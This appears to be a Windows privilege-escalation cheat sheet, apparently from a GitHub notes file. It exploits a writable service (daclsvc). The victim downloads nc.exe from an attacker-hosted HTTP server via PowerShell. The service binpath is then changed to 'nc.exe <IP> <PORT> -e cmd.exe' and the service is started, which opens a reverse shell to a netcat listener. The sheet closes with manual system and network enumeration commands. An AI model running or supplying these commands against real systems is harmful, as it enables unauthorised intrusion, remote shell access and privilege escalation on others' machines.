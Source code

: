 #	LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
#	daclsvc: WriteData/CreateFiles

# Exploitation
# Attacker
sudo python -m SimpleHTTPServer 80
sudo nc -lvp <PORT>

# Victim
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<IP>/nc.exe', '.\nc.exe')
sc config <SERVICENAME> binpath= "<PATH>\nc.exe <IP> <PORT> -e cmd.exe"
sc start <SERVICENAME>
# or 
net start <SERVICENAME> 
  
  
  
https://github.com/sagishahar/lpeworkshop


# Privesc via automation 
https://www.hackingarticles.in/window-privilege-escalation-via-automated-script/ 

# Manual - enumeration - environment - settings..etc
~~~
/ What system are we connected to? 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" 
// Get the hostname and username (if available) 
hostname 
echo %username% 
// Get users 
net users 
net user [username] 
// Networking stuff 
ipconfig /all 
// Printer? 
route print 
// ARP-arific 
arp -A 
// Active network connections 
netstat -ano 
// Firewall fun (Win XP SP2+ only) 
netsh firewall show state 
netsh firewall show config 
// Scheduled tasks 
schtasks /query /fo LIST /v 
// Running processes to started services 
tasklist /SVC 
net start 
// Driver madness 
DRIVERQUERY 
// WMIC fun (Win 7/8 -- XP requires admin) 
wmic /? 
~~~